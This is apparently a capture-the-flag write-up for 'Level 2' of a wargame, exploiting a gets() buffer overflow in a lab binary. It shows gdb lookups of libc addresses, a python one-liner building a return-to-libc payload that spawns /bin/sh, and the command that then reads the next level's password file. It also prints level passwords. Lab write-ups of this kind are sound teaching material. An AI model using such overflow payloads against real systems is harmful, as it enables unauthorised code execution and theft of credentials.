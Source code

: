 # Level 2
*password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*

## Analyze
```
$ scp -P 4242 level2@192.168.56.108:level2 binary/
```

```
...
  undefined local_50 [76];
  
  fflush(stdout);
  gets(local_50);
...
```

## Buffer overflow : gets exploit
objective : execute `/bin/sh`
- get some addresses
```
(gdb) info proc map
...
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
```

```
(gdb) info funct system
...
0xb7e6b060  system
...
(gdb) info funct exit
...
0x080483d0  _exit
...
```
p() return address : 0x0804853e\
`/bin/sh` address : 0xb7f8cc58\
`system` address : 0xb7e6b060\
`exit` address : 0x080483d0

```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"' > /tmp/level2
$ cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
